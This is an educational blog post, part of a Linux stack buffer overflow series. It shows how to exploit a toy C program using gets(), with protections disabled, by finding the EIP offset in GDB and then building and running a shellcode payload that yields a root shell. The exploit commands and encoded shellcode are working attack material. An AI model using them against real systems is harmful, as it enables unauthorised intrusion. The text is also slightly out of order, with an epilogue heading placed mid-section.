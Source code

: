 ```yaml
---
layout: post
title:  "Stack Buffer Overflows: Linux 2 - Jumping to Shellcode"
date:   2018-01-17 01:00:00 +0100
categories: [bof]
description: v0.1
image:
  feature: shellcode2.jpg
  credit:
  creditlink:
---
```

In Chapter 2 of my Linux Stack Buffer Overflow series I'll be walking you through crafting an exploit from scratch in GDB with no external hints of the environment.  If you're new to this type of exploit I'd recommend going through [Chapter 1](). 

One issue with crafting an exploit in GDB and then running it outside, is that the exploit simply no longer works.  This wasn't an issue in  as we were printing out the location of our exploit in memory, but what if we don't have that luxury? To show you how to overcome this, we'll be using the following code.

```c
#include <stdio.h>

int main(){
  bof();
  return 0;
}

int bof()
{
  char buffer[128];
  gets(buffer);
  return 0;
}

```  

## Step 1: Equalise the environment

There can be a number of reasons for this, but by far the most common is that the stack offsets outside GDB are different within GDB.  This [stack overflow](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it/17775966#17775966) answer does a good job explaining the exact reason, environment variables, and also provides a handy script for equalising these inside and outside GDB.  

The script also forces the step of calling a full rather than relative pathname, i.e `/root/test` vs `./test`.  Unsurprisingly this also has an effect on stack offsets as GDB will use the former.  Therefore, always call binaries with their full pathname.

I've demonstrated the use of this script below, which shows that the offset is equal in both.  The added environment variables also need to be removed when starting GDB, and usually this is enough to ensure equal stack offsets.  

```bash
root@kali:~# ./invoke test
Wanna Smash!?: 0xffffddb0
```
```gdb
root@kali:~# ./invoke -d test
...............SNIP........................
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) r
Starting program: /root/test 
Wanna Smash!?: 0xffffddb0
```

We can see that the stack offsets are equal if we take these steps.  It's worth doing even if, like me, you're very lazy as it will save you a lot of stress further down the line.

### Step 2: Overflow the Buffer

So compile the binary, removing all protections.

```
root@kali:~/bof# echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
0
root@kali:~/bof# gcc bof.c -o bof  -fno-stack-protector -z execstack -m32
```

The first part of the exploitation process is much the same as in Chapter 1.  We first find the point at which `eip` is overrun using a cyclical sequence.

```
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ r
Starting program: /root/bof/bof 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
```

```
EIP: 0x41416d41 ('AmAA')
```

We find `eip` at `0x41416d41`, which is at position 140.

### Step 3: Examine the Memory

We now have to find where to jump to.  For this we'll need to take the steps as above and unset any environment variables.
```gdb
(gdb) unset env LINES
(gdb) unset env COLUMNS
```

Now we'll write in a sequence of easily identifiable characters that we can locate when searching memory.  A series of 200 'A' characters should suffice.

```
gdb-peda$ r
Starting program: /root/bof/bof 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Run the find command to search for a series of 'A' characters:  
```
gdb-peda$ find 0x41414141
```
Then find the result where 'A' repeats 200 times on the stack:  
```
[stack] : 0xffffddb0 ('A' <repeats 200 times>)
```

An alternative method is to search around `esp`, the stack pointer and look for this sequence:  
```
gdb-peda$ x/80x $esp-200
0xffffdd78:	0x01	0x00	0x00	0x00	0xb0	0xdd	0xff	0xff
0xffffdd80:	0x38	0xde	0xff	0xff	0x20	0xe3	0xfe	0xf7
0xffffdd88:	0xb0	0xdd	0xff	0xff	0x00	0x70	0x55	0x56
0xffffdd90:	0x01	0x00	0x00	0x00	0x00	0x90	0xf9	0xf7
0xffffdd98:	0x38	0xde	0xff	0xff	0x70	0x55	0x55	0x56
0xffffdda0:	0xb0	0xdd	0xff	0xff	0x01	0x00	0x00	0x00
0xffffdda8:	0xa0	0x34	0xfd	0xf7	0x5a	0x55	0x55	0x56
0xffffddb0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffddb8:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffddc0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
```
Here we confirm that our sequence begins at `0xffffddb0`.  Assuming this will be the same stack offset, we'll jump to just after this location.

### Step 4: Write your Shellcode

For this we'll just grab [this shellcode](https://www.exploit-db.com/exploits/42177/).
```
python -c 'from struct import pack; print "\xeb\x34\x5e\x31\xc0\x31\xc9\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb1\x07\x80\x74\x0e\xff\x03\x80\xe9\x01\x75\xf6\x31\xdb\xb0\x17\xcd\x80\x31\xdb\xb0\x2e\xcd\x80\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xc7\xff\xff\xff\x2c\x61\x6a\x6d\x2c\x70\x6b".rjust(140, "\x90")+pack("<L", 0xffffddb0)' > /tmp/var
```

We now test it in GDB:
```
gdb-peda$ r < /tmp/var
Starting program: /root/bof/bof < /tmp/var
process 6648 is executing new program: /bin/dash
[Inferior 1 (process 6648) exited normally]
Warning: not running or target is remote
```
So we know our shellcode is working correctly.  Now we just run it outside the program
```
(cat /tmp/var; cat)|./invoke bof
id
uid=0(root) gid=0(root) groups=0(root)
ls
bof  bof.c  invoke  peda-session-bof.txt  peda-session-dash.txt
```

Step 5:  Without Invoke
--------------------------------

Of course sometimes the script isn't available to us, or isn't appropriate to the environment.  Say you're exploiting a remote service, and therefore the binary is already loaded and memory locations set.

Epilogue
--------
Hopefully now you have a good idea how you'd build an exploit from scratch using GDB.  In the next chapter we'll use these techniques to build a working exploit from scratch for a known application.  We'll also go through finding and removing bad characters, which can result in your shellcode failing to run.

In this case repeat exactly as above, removing the environment variables again but simply don't use the `invoke` script.  We'll get a different stack address:
```
[stack] : 0xffffd280 ('A' <repeats 200 times>)
```
So we adjust our payload accordingly:
```
root@kali:~/bof# python -c 'from struct import pack; print "\xeb\x34\x5e\x31\xc0\x31\xc9\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb1\x07\x80\x74\x0e\xff\x03\x80\xe9\x01\x75\xf6\x31\xdb\xb0\x17\xcd\x80\x31\xdb\xb0\x2e\xcd\x80\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xc7\xff\xff\xff\x2c\x61\x6a\x6d\x2c\x70\x6b".rjust(140, "\x90")+pack("<L", 0xffffd280)' > /tmp/var
root@kali:~/bof# (cat /tmp/var; cat)| /root/bof/bof
id
uid=0(root) gid=0(root) groups=0(root)
```
If this doesn't work, then play around with the stack location until the exploit succeeds.

Epilogue
-----------
Now we've successfully exploited a binary without it intentionally leaking information, but we're still disabling all stack protections.  Next time I'll show you how to bypass the simplest of these, data execution prevention (DEP) and use a technique known as ret2libc.

References
----------
[PEDA](https://github.com/longld/peda)
[Stack Overflow Answer on Failing GDB Exploit](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it/17775966#17775966)
[https://www.exploit-db.com/exploits/42177/](https://www.exploit-db.com/exploits/42177/)


Changelog
---------
